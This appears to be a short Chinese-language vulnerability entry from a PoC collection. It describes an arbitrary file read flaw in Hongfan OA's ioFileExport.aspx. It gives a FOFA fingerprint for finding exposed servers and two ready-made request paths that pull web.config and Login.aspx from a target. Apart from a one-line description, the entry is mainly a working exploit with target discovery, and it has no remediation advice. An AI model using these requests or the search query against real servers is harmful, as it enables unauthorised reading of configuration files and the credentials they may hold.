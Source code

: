 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>红帆OA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="红帆-ioffice"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/image-20210722221951490.png)



验证POC, 读取web.config文件

```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![img](../../../.vuepress/public/img/image-20210722222340956.png)



```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```



![img](../../../.vuepress/public/img/image-20210722222608934.png)